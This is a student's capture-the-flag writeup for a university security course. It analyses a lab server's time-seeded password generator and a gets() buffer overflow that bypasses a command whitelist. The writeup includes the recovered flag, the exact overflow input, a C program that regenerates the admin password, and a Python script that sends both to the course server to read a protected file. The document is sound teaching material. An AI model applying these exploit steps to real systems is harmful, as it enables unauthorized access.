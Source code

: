 # Writeup 8 - Binaries II

Name: *Sara Garcia-Beech*
Section: *0101*

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: *Sara Garcia-Beech*

## Assignment Writeup

### Part 1 (100 pts)
Answer the following questions regarding the server executable (for which source is provided).

1. How is the per-session administrator password generated? Are there any inherent weaknesses in this implementation?

A 16 character string is generated using the rand function, taking the current time as the seed parameter. This is inherently weak as a separate program could produce the same "random" password if it is run at the same time.

2. Describe two vulnerabilities in this program. Provide specific line numbers and classifications of the vulnerability. Explain potential ramifications as well as ways to avoid these vulnerabilities when writing code.

Line 68: The program takes a command from the user as input, but since the program uses the gets function here, it does not check the length of the input. This could potentially cause buffer overflows depending on what input is given.

Line 71: The program uses the nonstandard strcasestr function to compare the command given as user input to a list of acceptable user commands. If unchecked input causes a buffer overflow, the command variable could be overwritten and the strcasestr function could compare the input with something other than the command variable's encoded contents.

3. What is the flag?

CMSC389R-{expl017-2-w1n}

4. Describe the process you followed to obtain the flag: vulnerabilities exploited, your inputs to the server in a human-readable format, etc. If you create any helper code please include it.

I began by attempting to determine the password. The vulnerability in the generation of the password meant that it was possible to replicate the password generation with my own program, given that the program was run within the same second as the server's own password generation. This was done with my pwd.c program. Redirecting the output of the pwd.c function into the server allowed me to raise my privileges to those of admin and run commands. Running ls on the server revealed a file named flag, but there was no way to read the contents of the file with the limited whitelisted commands. However, the server took in user input for a command with the gets function, which is vulnerable to buffer overflows. Giving the program an input longer than 32 characters overwrote the commands variable with the contents of the string after the 32nd character. To run "cat flag", I gave as input "cat flag", followed by enough spaces to reach 32 characters, and then the same thing repeated, so that strcasestr would compare "cat flag                         " with itself, return true, and run cat flag without a problem.

Input summary:

3
Output of pwd.c
4
"cat flag                         cat flag                         "


pwd.c:
```
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <time.h>

#define BUFF_SIZE 32
#define FLAG_SIZE 32
#define PASS_SIZE 16

int main(void) {
    int i, prompt_response;
    /* password for admin to provide to dump flag */
    char *password;
    /* true if user is admin */
    uint8_t admin;

    /* seed random with time so that we can password */
    srand(time(0));
    admin = 0;
    password = calloc(1, PASS_SIZE+1);
    for (i = 0; i < PASS_SIZE; i++) {
        password[i] = rand() % ('z'-' ') + ' ';
    }
    password[PASS_SIZE] = 0;

    printf("%s", password);

    return 0;
}
```

stub.py:
```
import socket
import os
import sys

host = "ec2-18-222-89-163.us-east-2.compute.amazonaws.com"
port = 1337

def server():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))

    command = "cat flag                         cat flag                         "

    data = s.recv(1048)
    print(data)

    s.send("3\n")
    data = s.recv(1048)
    print(data)

    os.system("./pwd >> temp.txt")
    os.system("cat temp.txt")
    fl = open("temp.txt", "r")
    pwd = fl.read().split('\n')[0] + '\n'
    print("PWD:")
    print(pwd)
    print("****")

    s.send(pwd)

    data = s.recv(1048)
    print(data)

    s.send("4\n")
    print("Sending 4...")
    data = s.recv(1048)
    print(data)
    s.send(command + "\n")
    print("sending ls...")
    data = s.recv(1048)
    print(data)
    data = s.recv(1048)
    print(data)

    os.system("rm temp.txt")

server()
```
